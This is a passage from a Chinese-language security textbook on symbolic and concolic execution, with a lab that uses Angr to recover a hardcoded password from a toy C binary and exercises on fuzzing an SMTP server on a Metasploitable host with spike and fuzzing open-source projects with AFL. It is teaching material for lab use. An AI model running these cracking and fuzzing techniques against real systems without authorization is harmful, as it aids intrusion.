如果定理证明器无法评估某个条件，它假设条件的真假两种情况都有可能，符号引擎将探索这两条路径。然而，这个结果是错误的，因为不存在能使条件为真的`x`值。这一限制导致符号执行引擎探索那些不可行的路径。由于这个原因和其他原因，符号执行无法在大型程序中扩展。

随着路径数量的增加，路径方程的数量也会增加，这使得符号执行在大型程序中变得不太可行。相反，测试人员通常使用一种混合方法，称为*合成执行*或*动态符号执行*。其中一个最早的项目是由 NASA 团队开发的符号路径查找器（SPF）。这些技术将模糊测试的动态执行与符号执行中使用的静态分析技术结合在一起。

### **动态符号执行**

动态符号执行（DSE）结合了像模糊测试这样的动态执行技术与符号执行的思想。除了符号变量和路径约束外，DSE 还跟踪作为程序原始输入提供的具体值，并完全探索这些具体变量所执行的路径。由此探索产生的路径约束用于生成新的具体变量，以探索新的路径。图 9-7 展示了当具体变量 `a` = 0, `b` = 4, `c` = 0 时，DSE 引擎所经过的路径示例。



*图 9-7：DSE 引擎执行路径示例*

为了真正理解 DSE 引擎的内部工作原理，考虑在 DSE 引擎执行测试函数的每一行时，具体变量、符号变量和路径约束的状态。每一行的表 9-1 表示执行过程中的一步。

**表 9-1：Concolic 引擎单次执行过程中的具体变量、符号变量和路径约束**

| 行号 | 代码 | 具体变量 | 符号变量 | 路径约束 |
| --- | --- | --- | --- | --- |
| 1 | `def testFunction(a,b,c):` | *a* = 0, *b* = 4, *c* = 0 |  |  |
| 2 |     `x, y, z = 0, 0, 0` | *x* = 0, *y* = 0, *z* = 0 |  |  |
| 3 |     `if (a):` |  | *α* = *a* | *α* == *false* |
| 4 |           `x = -2` |  |  |  |
| 5 |     `if (b < 5):` |  | *β* = *b* | *β* < 5 == true |
| 6 |           `if (not a and c):` |  | *λ* = *c* | (¬*α* ∧ *λ*) == *false* |
| 7 |                    `y = 1` |  |  |  |
| 8 |           `z = 2` | *z* = 2 |  |  |
| 9 |     `assert(x + y + z != 3)` |  |  |  |

在第 1 行，*a*、*b* 和 *c* 的值随机初始化为 0、4 和 0。当 DSE 引擎执行时，它跟踪每一个遇到的新变量，因此当它执行到第 2 行时，它将 *x* = 0、*y* = 0 和 *z* = 0 存储在具体变量集合中。

此时，DSE 引擎移动到第 3 行，遇到第一个 `if` 语句。每一个新的条件语句都会创建一个新的路径约束，并在必要时创建新的符号变量。在这里，DSE 引擎创建了一个新的符号变量 *α* = *a* 来表示具体变量 *a*，其值为 0。与符号执行引擎不同，符号执行引擎使用定理证明器来决定是否探索某个分支，而 DSE 引擎通过替换具体变量直接评估条件。条件 `if(a)` 简化为 `if(0)`，因为 *a* 的值是 0。这个条件轻松评估为 false，因此 DSE 引擎也添加了路径约束 *α* == *false* 并不执行该分支。由于条件评估为 false，DSE 引擎不执行第 4 行。

在下一步中，DSE 引擎遇到了第二个条件`if (b < 5):`，位于第 5 行。此时，DSE 引擎创建了一个符号变量*β* = *b*，并使用*b*的具体值来决定是否采取该分支。在这种情况下，*b* = 4，因此该分支被执行。DSE 引擎然后添加路径约束*β*小于五为真 (*β* < 5 == *true*)，并继续执行到第 6 行的第三个也是最后一个条件。

在这里，DSE 引擎遇到了一个新变量*c*。它创建了一个新的符号变量*λ* = *c*，并使用具体变量*a* = 2 和 *c* = 0 来评估条件`if (not a and c):`。在这种情况下，分支没有被采取，因此 DSE 引擎添加了路径条件 (*¬**α* *∧* λ) == *false*。然后，DSE 引擎继续执行到第 8 行，将具体变量*z*更新为存储值 2，并在第 9 行结束。在这种情况下，*z* = 2，*x* = 0 和 *y* = 0，因此`assert`语句（`assert(x + y + z != 3)`）没有触发。

当程序到达路径的末端时，它会回溯到最后一个分支并否定路径约束中最近添加的值。在我们的示例中，新的路径条件将是*α*不为真，*β*小于五，并且*λ*为真，或者用方程式表示：

¬*α* ∧ (*β* < 5) ∧ *λ*

一旦 DSE 引擎得到了新的约束，它就使用定理证明器来找到满足此方程的*α*、*β*和*λ*的值。在这种情况下，求解器可能返回 *a* = 0，*b* = 4 和 *c* = 1。 这些新值将允许 DSE 引擎探索另一个分支。图 9-8 展示了回溯以探索新路径。



*图 9-8：* 回溯过程以否定最后的路径约束

然后，DSE 引擎会重置并使用新的输入值重复此过程。当它到达新输入的路径末端时，DSE 引擎会否定第二个最近添加的约束。这个过程会递归进行，直到 DSE 引擎已经探索完路径树中的所有路径。这里有一个挑战：看看你是否能构建出显示具体值、符号变量和路径约束的表格，导致 DSE 引擎识别失败状态。

现在，让我们通过一个例子来突出共符执行的优势，这个例子仅靠符号执行是难以解决的（表 9-2）。

和之前一样，我们使用具体变量执行程序直到路径末端。当我们到达末端时，我们取最后添加的约束的逆。逆约束如下：

*f*^(–1)(*x* ≠ *sha*256(*y*[0])) *→* *x* = *sha*256(*y*[0])

**表 9-2：** 一次遍历中收集的具体变量、符号变量和路径约束

| 代码 | 具体变量 | 符号变量 | 路径约束 |
| --- | --- | --- | --- |
| `from hashlib import sha256 def hashPass(x):     return sha256(x)` |  |  |  |
| `def checkMatch(x,y):    z = hashPass(y)    if (x == z ):       assert(true) else:     assert(false)` | *x* = 2, *y* = 1 *z* = 6*b*....*b*4*b* | *x*[0] = *x*, *y*[0] = *y* *z* = *sha*256(*y*[0]) | *x*[0] ≠ *sha*256(*y*[0]) |

代码中使用的 SHA-256 哈希函数是一个单向函数，因此解算器无法求解出满足此约束的 *x* 和 *y* 的值。但是，我们可以通过将我们的符号变量 *y*[0] 替换为它的具体值 *y* = 1 来简化约束：

*x* == *sha*256(*y*[0]) *→* *x* == *sha*256(1) *→* *x* == 6*b*....*b*4*b*

现在我们有了一个可以轻松求解的可满足方程。

DSE 不是完美的，仍然有些情况下它无法探索程序中的所有路径。但模糊测试（fuzzing）和 DSE 是我们发现零日漏洞的最佳工具之一。让我们看一些可以使用 DSE 进行测试的程序。

### **使用 DSE 破解密码**

让我们使用一个名为 *Angr* 的符号执行引擎来破解用户的密码。Angr 是由 Yan Shoshitaishvili 等人创建的，他们当时是 Giovanni Vigna 研究团队的一员，所在的机构是圣塔芭芭拉大学。Angr 不分析特定的编程语言，而是分析你在编译程序时得到的二进制文件，这使得它与编程语言无关。我们将在本节中练习使用它，但首先我们需要创建程序进行测试。

#### ***创建可执行二进制文件***

在你的 Kali Linux 桌面上创建一个名为*Concolic*的文件夹，并在其中创建一个名为*simple.c*的新文件。这就是我们要编译的文件。

将以下代码复制到文件中：

```
#include <stdio.h>

void checkPass(int x){

   if(x == 7857){

      printf("Access Granted");

   }else{

      printf("Access Denied");

   }

}

int main(int argc, char *argv[]) {

    int x = 0;  

    printf("Enter the password: ");

    scanf("%d", &x);

    checkPass(x);

}
```

该程序是用 C 编程语言实现的。程序提示用户输入密码，并检查密码是否与 `7857`（正确的值）匹配。如果密码匹配，程序将打印 `Access Granted`。否则，它会打印 `Access Denied`。

打开终端并导航到你在桌面上创建的 *Concolic* 文件夹：

```
kali@kali:~$ cd ~/Desktop/Concolic/
```

通过运行以下命令，将 *simple.c* 程序编译成一个二进制文件（包含机器代码的文件）：

```
kali@kali:~$ gcc -o simple simple.c
```

该程序运行 Kali Linux 中预装的 `gcc` 编译器，将 *simple.c* 文件编译并输出（`-o`）一个名为 *simple* 的二进制文件。通过运行以下命令测试你新生成的二进制文件：

```
kali@kali:~$ ./simple
```

#### ***安装与运行 Angr***

我们建议你在一个虚拟的 Python 环境中运行 Angr。虚拟环境将 Angr 使用的库与常规环境中的库隔离开来，从而减少由库版本冲突导致的错误。运行以下命令来安装 Python 的虚拟环境封装器（`virtualenvwrapper`）及其依赖项：

```
kali@kali:~$ sudo apt-get install python3-dev libffi-dev build-essential virtualenvwrapper
```

接下来，配置终端并激活虚拟环境封装器，这样你就可以创建新的虚拟环境：

```
kali@kali:~$ source /usr/share/virtualenvwrapper/virtualenvwrapper.sh
```

现在创建一个名为`angrEnv`的新虚拟环境，并设置它使用 Python 3：

```
kali@kali:~$ mkvirtualenv --python=$(which python3) angrEnv
```

最后，在这个新环境中安装 Angr：

```
kali@kali:~$ pip3 install angr
```

如果你正确设置了一切，你应该会在终端中看到`angrEnv`标签，如下所示：

```
(angrEnv) kali@kali:~/Desktop/Concolic$
```

Angr 有很好的文档，因此在继续之前，我建议你先阅读 Angr 文档中的核心概念部分。还可以尝试完成* [`docs.angr.io/core-concepts/toplevel/`](https://docs.angr.io/core-concepts/toplevel/) *中的 Python 交互式 Shell 练习。

#### ***Angr 程序***

现在，让我们编写一个 Python 程序，使用 Angr 自动发现我们编写的程序中的密码。在桌面上创建一个名为*angrSim.py*的新文件，并将以下代码片段保存到该文件中：

```
   import angr

   import sys
➊ project = angr.Project('simple')
➋ initial_state = project.factory.entry_state()

   simulation = project.factory.simgr(initial_state)

➌ def is_successful(state):

       stdout_output = state.posix.dumps(sys.stdout.fileno())

       return 'Access Granted'in stdout_output.decode("utf-8")

➍ def should_abort(state):

       stdout_output = state.posix.dumps(sys.stdout.fileno())

       return 'Access Denied'in stdout_output.decode("utf-8")

➎ simulation.explore(find=is_successful, avoid=should_abort)

   if simulation.found:

       solution_state = simulation.found[0]

       print("Found solution")

    ➏ print(solution_state.posix.dumps(sys.stdin.fileno()))
else:

     raise Exception('Could not find the password')
```

我们将来自*simple.c*程序的二进制文件导入作为 Angr 项目 ➊。在继续之前，请记住，你将检查的符号变量将是表示符号寄存器内容的位向量。这是因为你正在符号执行二进制文件，而不是源代码。

接下来，我们获取程序的初始入口状态 ➋。然后，我们将此状态传递给一个模拟管理器（`simgr`），该管理器将负责管理程序执行的模拟过程。如果你想手动模拟程序，你可以运行`simulation.step()`，这将允许你在每一步执行中检查状态和路径约束。Angr 文档通过一个简单的示例演示了这个过程。

现在，我们定义一个函数，用于识别成功状态 ➌。如果状态会输出字符串`Access Granted`，则该函数返回 true。接下来，我们定义一个函数，用于识别失败状态 ➍。如果状态会输出字符串`Access Denied`，则该函数返回 true。

现在我们可以开始符号执行过程。然后，我们将函数指针传递给成功和失败函数。如果模拟达到失败状态，它会迅速终止并重新开始搜索。然而，如果模拟发现了成功状态，它会终止并保存状态。最后，我们打印出导致我们进入成功状态的输入，瞧，我们找到了密码 ➏。

使用终端运行*angrSim.py*程序：

```
(angrEnv) kali@kali:~/Desktop/Concolic$ python3 angrSim.py
```

这个过程需要一些时间来运行。完成后，你应该能看到以下输出：

```
It is being loaded with a base address of 0x400000.
Found solution
b'0000007857'
```

恭喜你，你已经使用 Angr 符号执行引擎找到了让你进入成功状态的输入。

### **练习**

这些练习旨在完善你对符号执行和模糊测试的理解。练习按难度顺序列出，我建议尝试更困难的练习，帮助你真正掌握这些主题。祝你好运。

#### ***使用 Angr 进行夺旗游戏***

在本章中，我们仅查看了 Angr 能力的一小部分。你可以通过完成 Jake Springer 创建的 Angr *Capture the Flag* 挑战来拓展对这个工具的理解。挑战的仓库位于 *[`github.com/jakespringer/angr_ctf`](https://github.com/jakespringer/angr_ctf)*，其中也包含了解决方案，因此在尝试挑战后，可以查看自己的答案。完成所有 17 个挑战，真正掌握 Angr。

#### ***模糊测试 Web 协议***

我们已经探讨了如何模糊测试二进制文件。现在，让我们看看如何使用 Kali Linux 虚拟机上预装的 `spike` 工具来模糊测试网络协议。以下是该命令的一般语法：

```
generic_web_server_fuzz [target-IP] [port] [spikescript] [variable index]    [

			 strings index]
```

首先指定你想要模糊测试的主机（例如，Metasploitable 服务器）。接着，指定你希望模糊测试的协议所使用的端口。例如，你可以尝试模糊测试运行在 25 端口的 SMTP 服务器。

spike 模糊器并不了解 SMTP 协议的结构，因此你需要提供一个 spike 脚本，定义它需要发送的消息。这个脚本将由要发送的字符串集合和要变异的变量组成。你可以编写自己的模糊测试脚本，也可以使用目录 */usr/share/spike/audits/* 中包含的脚本。我们将在本练习后面更仔细地查看一个示例脚本。

`*[variable index]*` 指定脚本中的起始位置。例如，变量索引值为 0 将从脚本中的第一个变量开始模糊，而值为 3 将跳过前面三个值，从第四个变量开始变异。

spike 模糊器有一个预定义的字符串变异数组，`*[string index]*` 值指定首先使用其中的哪一个。例如，值为 0 会从第一个字符串变异开始，而值为 4 则从第五个变异开始。`*[variable index]*` 和 `*[string index]*` 值非常有用，因为它们允许你在任何原因导致模糊测试终止时，从特定点恢复模糊测试。

完整的命令可能如下所示：

```
kali@kali:~$ generic_web_server_fuzz <Metasploitable IP address> 25 /usr/share

			 /spike/audits/SMTP/smtp1.spk 0 0

Target is 192.168.1.101
Total Number of Strings is 681
Fuzzing Variable 1:1
Variablesize= 5004
Request:
HELO /.:/AAAAAAAAAAA

...
```

为了更好地理解输出，让我们来看一下 *smtp1.spk* 脚本。这个 `spike` 脚本描述了 SMTP 协议，并由一组命令组成：

```
   s_string_variable("HELO");

   s_string(" ");

   s_string_variable("localhost");

   s_string("\r\n");

   //endblock
➊ s_string("MAIL-FROM");

   s_string(":");
➋ s_string_variable("bob")
```

`s_string()` 命令告诉模糊器发送与 SMTP 消息部分对应的字符串。模糊器发送与 SMTP 协议相关的 `MAIL-FROM` 命令 ➊。`s_string_variable()` 命令定义要变异的字符串，在本例中为 `"bob"`，并将其发送 ➋。例如，模糊器可能会发送 `"boo`。下一次变异 `bob` 时，它可能会发送 `bAAAAAA`。

`spike` 脚本还支持其他命令，例如 `s_readline`，它显示响应的字符串表示，以及 `printf()`，它将内容写入本地终端（对于调试非常有用）。`spike_send()` 命令刷新缓冲区并发送其所有内容。

试着为另一种网络协议编写自己的 `spike` 脚本。如果你觉得有用，可以将它添加到官方的 `spike` Git 仓库中，地址为 *[`github.com/guilhermeferreira/spikepp.git`](https://github.com/guilhermeferreira/spikepp.git)*。

#### ***模糊测试开源项目***

现在，让我们来练习模糊测试一个真实的程序。在这个练习中，试着在你最喜欢的开源项目上运行你在这一章使用过的 AFL-fuzzer。需要注意的是，对开源程序进行模糊测试是合法的，因为它有助于开发者社区发现可能被攻击者利用的漏洞。

在进行模糊测试时，请记得遵循负责任的披露原则。如果你发现了一个漏洞，请通过安全邮件发送给项目的创建者。如果可能的话，解释一下这个漏洞如何被利用，并附上一些示例利用代码会很有帮助。

如何快速判断一个漏洞是否可以被利用？`gdb` 的 exploitable 插件可以帮助你判断导致崩溃的漏洞是否可能是恶意的。你可以从 *[`github.com/jfoote/exploitable`](https://github.com/jfoote/exploitable)* 下载这个插件。

模糊测试是一个计算密集型的过程，我们不建议在虚拟机中进行此操作。建议将模糊测试工具运行在远程服务器或本地计算机上。

#### ***实现你自己的符号执行引擎***

物理学家理查德·费曼曾说过：“我无法创造的东西，我就不理解。”深入理解某样东西的最佳方式就是亲自实现它。试着用 Python 实现一个自己的符号执行引擎。这个练习曾经是麻省理工学院计算机安全课程的作业，现在公开给大家： *[`css.csail.mit.edu/6.858/2018/labs/lab3.html`](https://css.csail.mit.edu/6.858/2018/labs/lab3.html)*。

试试看吧，你可能会惊讶于你在这一章学到的内容。
